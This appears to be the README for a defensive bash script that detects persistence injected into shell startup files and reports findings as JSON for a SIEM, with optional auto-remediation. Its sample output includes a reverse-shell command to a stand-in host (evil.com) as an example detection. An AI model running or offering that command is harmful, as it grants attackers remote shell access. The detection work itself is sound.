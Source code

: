 ## Detect-Persistence-Startup-Injection.sh

This script scans for malicious persistence mechanisms in startup files and shell configurations, providing a JSON-formatted output for integration with your SIEM.

### Overview

The `Detect-Persistence-Startup-Injection.sh` script identifies potential security risks in system and user startup files by analyzing their content for suspicious patterns such as reverse shells, encoded commands, and cryptocurrency miners.

### Script Details

#### Core Features

1. **Shell Configuration Scanning**: Examines system-wide and user-specific shell configuration files.
2. **Pattern Detection**: Identifies multiple categories of malicious content:
   - Pipe-to-shell downloads
   - Base64 encoded executions
   - Reverse shells
   - Cryptocurrency miners
   - Environment variable hijacking
   - Malicious prompt commands and traps
3. **Auto-Remediation**: Optional capability to safely comment out suspicious lines.
4. **JSON Output**: Generates a structured JSON report for integration with security tools.
5. **Logging Framework**: Provides detailed logs with automatic rotation.

### How the Script Works

#### Command Line Execution
```bash
./Detect-Persistence-Startup-Injection.sh [--fix]
```

#### Parameters

| Parameter | Type | Default Value | Description |
|-----------|------|---------------|-------------|
| `--fix` | flag | false | Enable auto-remediation for high/critical findings |
| `RECENT_DAYS` | int | 90 | Number of days to consider for recent modifications |
| `HASH_ALL` | bool | 0 | Calculate SHA256 for all files, not just suspicious ones |
| `SKIP_ETC_PROFILED` | bool | 0 | Skip scanning of /etc/profile.d directory |
| `VERBOSE` | bool | 0 | Enable verbose logging |

#### Example Invocation

```bash
# Basic scan
./Detect-Persistence-Startup-Injection.sh

# Scan with auto-remediation
./Detect-Persistence-Startup-Injection.sh --fix

# Scan with custom parameters
RECENT_DAYS=30 HASH_ALL=1 ./Detect-Persistence-Startup-Injection.sh
```

### Script Execution Flow

#### 1. Initialization Phase
- Sets up logging and configuration parameters
- Prepares temporary working directory
- Clears previous execution logs

#### 2. Target Collection
- Gathers system-wide startup files (`/etc/profile`, `/etc/bash.bashrc`)
- Collects user-specific shell configuration files
- Identifies valid shell users and their home directories

#### 3. File Analysis
- Examines each target file for suspicious patterns
- Calculates file scores based on findings
- Records file metadata (permissions, ownership, timestamps)

#### 4. Severity Assessment
- Determines overall severity based on findings:
  - `critical`: Reverse shells or recent modifications of high-severity items
  - `high`: Pipe downloads or encoded executions
  - `medium`: Miners, environment hijacking, or prompt traps
  - `low`: No significant findings

#### 5. Remediation (Optional)
- Creates backups of affected files
- Comments out suspicious lines
- Records remediation actions

### JSON Output Format

#### With Findings
```json
{
  "timestamp": "2025-07-18T10:30:45+00:00",
  "host": "hostname",
  "action": "Detect-Persistence-Startup-Injection.sh",
  "data": {
    "targets": [
      {
        "path": "/home/user/.bashrc",
        "exists": "true",
        "mtime": "2025-07-18T10:20:45Z",
        "size": "2048",
        "sha256": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
        "owner": "user",
        "perm": "644",
        "world_writable": "false",
        "suspicious": true,
        "score": 50,
        "hits": [
          {
            "line": 123,
            "category": "revshell",
            "text": "bash -i >& /dev/tcp/evil.com/4444 0>&1"
          }
        ],
        "recent_mod": true
      }
    ],
    "severity": "critical",
    "recent_days": "90",
    "hash_all": "0",
    "fix_applied": true,
    "remediations": [
      {
        "file": "/home/user/.bashrc",
        "backup": "/home/user/.bashrc.bak.20250718103045",
        "commented_lines": [123]
      }
    ]
  },
  "copilot_soar": true
}
```

### Implementation Guidelines

#### Best Practices
- Run with appropriate permissions to access all target files
- Regularly update pattern matching rules
- Test auto-remediation in a safe environment first
- Monitor log rotation and disk usage

#### Security Considerations
- Run with minimal required privileges
- Protect backup files from unauthorized access
- Validate all file paths before processing
- Handle temporary files securely

### Troubleshooting

#### Common Issues
1. **Permission Errors**: Check access rights for target files
2. **False Positives**: Review and update benign pattern list
3. **Remediation Failures**: Verify write permissions and disk space
4. **Performance Issues**: Monitor file count and processing time

#### Debugging
Enable verbose logging:
```bash
VERBOSE=1 ./Detect-Persistence-Startup-Injection.sh
```

### Contributing

When modifying this script:
1. Add new detection patterns carefully to minimize false positives
2. Update benign pattern list as needed
3. Test thoroughly with various shell configurations
4. Document pattern
